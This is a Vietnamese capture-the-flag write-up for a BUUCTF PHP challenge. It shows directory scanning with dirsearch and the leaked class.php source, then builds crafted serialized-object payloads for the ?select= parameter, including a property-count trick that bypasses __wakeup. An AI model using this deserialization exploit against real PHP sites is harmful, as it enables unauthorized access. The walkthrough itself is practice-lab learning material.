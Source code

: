 # [极客大挑战 2019]PHP

[Link](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]PHP)

Đầu tiên, khi mình boot instance và truy cập vào challenge, mình cảm thấy rất bất ngờ với giao diện của trang web. Mình nghĩ rằng author rất giỏi với giao diện thú vị và vui nhộn như thế.
![1](https://user-images.githubusercontent.com/95614411/173055220-97ee6bb8-4e31-43d2-bb53-170f542d6917.PNG)

Vì author đã gợi ý là họ thường xuyên sao lưu dữ liệu trang web, nhưng vì mình không tìm được manh mối nào khi đọc source HTML, nên mình quyết định dùng Dirsearch để tìm.

`python3 dirsearch.py -u http://089e324c-b9d5-4267-a1b6-5a5e6c644bdf.node4.buuoj.cn:81/ -e php`

Và mình phát hiện ra được một link thú vị, có thể down về source code của web.

![2](https://user-images.githubusercontent.com/95614411/173055306-2f4b161c-b5c0-40cb-9f2c-c816f5e6cc13.PNG)

![3](https://user-images.githubusercontent.com/95614411/173055353-f97a15fe-66ad-42f5-a8c4-4d1105c84a4d.PNG)


ở file class.php:
```
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

điều đầu tiên mình đập vào mắt mình là: 


![image](https://user-images.githubusercontent.com/95614411/173054943-b8052b7b-d389-4068-97a6-79a2ea9686bb.png)

Ở đây, mình xác nhận được, để nhận được flag thì mình phải đăng nhập vào được quyền admin với:
> Username: admin
> 
> Password: 100

Và bây giờ, mình đối mặt với 2 vấn đề: 
- Làm sao để đưa lên server username và password?
- làm sao để đưa vào khi username, password đều nằm trong 1 class?

Mình tiếp tục mở file index.php lên và thấy:

![image](https://user-images.githubusercontent.com/95614411/173056586-1a476fa6-46bc-4c6a-b0c3-0b1fbf2ad4b9.png)

Vậy là mình có thể đưa vào với query string `?select=`

Kế tiếp, mình nhớ là đã xem trên kênh Cyber Jutsu về ý tưởng đưa một ojbect qua query string, nhưng và mình phải tìm cách vượt qua function __wakeup() 

![image](https://user-images.githubusercontent.com/95614411/173057145-80e07ba6-e84e-4554-92ce-41ba85f27968.png)

Mình đã biến tấu một chút ở code và dùng hàm `serialize()` để xem mã hóa của code khi mình tạo một object như bên dưới:

![image](https://user-images.githubusercontent.com/95614411/173057544-d4b9face-7546-4dea-8510-82ac60d0e8aa.png)

Và khi chạy trên localhost thì mình được:

![image](https://user-images.githubusercontent.com/95614411/173057621-60728caf-572a-4881-8841-240793d9a3ba.png)


Payload ban đầu của mình: 
`?select="O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}"
- ở đây, vì hai biến `username` và `password` mang thuộc tính private, nên mình dùng `%00` điền vào trước chuỗi để khi truy xuất vào được đầy đủ.
 
Và để vượt qua function `__wakeup()` thì mình đã payload một chút:
`?select="O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}"

Và kết quả:

![image](https://user-images.githubusercontent.com/95614411/173059398-29fc5a8e-43c9-47a6-be28-35ce755c04a5.png)







